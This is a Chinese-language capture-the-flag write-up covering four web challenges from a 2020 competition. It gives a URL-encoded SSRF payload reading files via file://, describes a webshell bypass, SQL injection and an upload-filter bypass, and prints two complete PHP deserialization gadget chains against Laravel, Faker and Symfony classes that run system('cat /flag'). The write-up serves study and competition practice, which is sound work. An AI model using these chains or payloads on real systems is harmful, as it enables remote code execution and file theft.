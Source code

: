 ```yaml
---
layout:     post
title:      第五空间-WP
subtitle:   第五空间 web wp
date:       2020-06-27
author:     BY Diego
header-img: /img/wenzhang/post-bg-第五空间.jpg
catalog: true
tags:
    - WP
    - 比赛
---
```


# hate-php

简单的无字符webshell 利用取反绕过 + php7 特性

![NwNpLV.png](https://s1.ax1x.com/2020/06/24/NwNpLV.png)

![NwNSs0.png](https://s1.ax1x.com/2020/06/24/NwNSs0.png)

`flag{ecee9b5f24f8aede87cdda995fed079c}`

# do you know

非预期解

index.php 存在如下限制
![NwaTqx.png](https://s1.ax1x.com/2020/06/24/NwaTqx.png)
检测 `$_SERVER['QUERY_STRING']` 但是不会url解码 ，因此url编码绕过

下面几个限制 `_GET` 最后一个参数复制给url
构造如下
```
a=1&b=1&url=..
```

后面是php的curl， 因此为ssrf ，支持file，dict等协议 尝试读文件
![NwaqIO.png](https://s1.ax1x.com/2020/06/24/NwaqIO.png)
xxe.php 存在main.php 和 hint.php
读取文件main.php
![NwabdK.png](https://s1.ax1x.com/2020/06/24/NwabdK.png)

发现存在flag.php
![NwaHZ6.png](https://s1.ax1x.com/2020/06/24/NwaHZ6.png)

payload
```
?a=1&b=1&url=%66%69%6c%65%3a%2f%2f%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%66%6c%61%67%2e%70%68%70
```
`flag{5bc0bc291d322450679866d5ddf0a346}`

# laravel

从网上公开的利用链已经不能用了 ，尝试自己挖掘

先寻找利用点 全局搜索`call_user_func`,目标锁定在
![NwBdwq.png](https://s1.ax1x.com/2020/06/24/NwBdwq.png)

然后寻找起始点`__destruct` 而这里的`__destruct` 需要调用上面的`__call`，找到符合条件的点`\vendor\laravel\framework\src\Illuminate\Routing\PendingResourceRegistration.php`
![NwBamn.png](https://s1.ax1x.com/2020/06/24/NwBamn.png)

会去调用`register`，而`register`又会调用`$this->registrar->register()`,同时`$this->registrar`可控，因此调用了`__call`

利用

目的是利用`vendor\fzaninotto\faker\src\Faker\ValidGenerator.php`中`__destruct`的`call_user_func`
这里`$this->validator`可控 `$res` 为call_user_func_array 的返回值
![NwBNOs.png](https://s1.ax1x.com/2020/06/24/NwBNOs.png)

因此还需要寻找一个返回值可控的点，同时由于`name` 不可控因此 调用的方法不可控，但是会调用可控制类的`__call`方法，因此再寻找一个符合条件的`__call` 方法

`vendor\fzaninotto\faker\src\Faker\DefaultGenerator.php` 中 `$this->default`可控 因此`$res`可控
![NwBtyj.png](https://s1.ax1x.com/2020/06/24/NwBtyj.png)


最终`call_user_func`全部可控,构造链如下
```php
<?php

namespace Illuminate\Routing {

	class PendingResourceRegistration{

    	protected $registrar;
    	protected $registered = false;
    	public function __construct(){

    	    $this->registrar = new \Faker\ValidGenerator();
    	}
	}

}

namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace {

	$a = new Illuminate\Routing\PendingResourceRegistration();
	echo urlencode(serialize($a));
}
?>
```
亦或者如下
```php
<?php
namespace Faker {
	class ValidGenerator{
    	protected $generator ;//= new DefaultGenerator();
    	protected $validator;
    	protected $maxRetries=1;

    	public function __construct(){

    		$this->generator = new DefaultGenerator();
    		$this->validator = "system";

    	}
    }

    class DefaultGenerator{
    	protected $default="cat /flag";
    }

}

namespace Symfony\Component\Routing\Loader\Configurator{

	class CollectionConfigurator{
		private $parent;
    	private $parentConfigurator;
    	private $parentPrefixes;
    	public function __construct(){
    		$this->prefixes = 1;

    	    $this->parent = new \Faker\ValidGenerator();
    	}
	}
}

namespace {

	$a = new Symfony\Component\Routing\Loader\Configurator\CollectionConfigurator();
	echo urlencode(serialize($a));
}
```
![NwDPXj.png](https://s1.ax1x.com/2020/06/24/NwDPXj.png)
`flag{90569859b0164266ef04461bbc1d5cc5}`


# 美团外卖

一开始以为是个注入题目 可以`'union select 'md5'# ` 然后对应值登入 但是发现是个空壳


扫描目录发现存在www.zip
审计存在注入漏洞 daochu.php（无任何过滤）
![NwsNOH.png](https://s1.ax1x.com/2020/06/24/NwsNOH.png)

注入发现hints
![Nwsd0A.png](https://s1.ax1x.com/2020/06/24/Nwsd0A.png)

是个后台地址，同时发现框架使用了webuploader 插件 ，存在上传漏洞
`lib\webuploader\0.1.5\server\preview.php`多加了限制 然后大写绕过
![Nwsamd.png](https://s1.ax1x.com/2020/06/24/Nwsamd.png)

![NwswTI.png](https://s1.ax1x.com/2020/06/24/NwswTI.png)
最后`?file = /flag` 即可


![Nwst6e.png](https://s1.ax1x.com/2020/06/24/Nwst6e.png)

`flag{90569859b0164266ef04461bbc1d5cc5}`
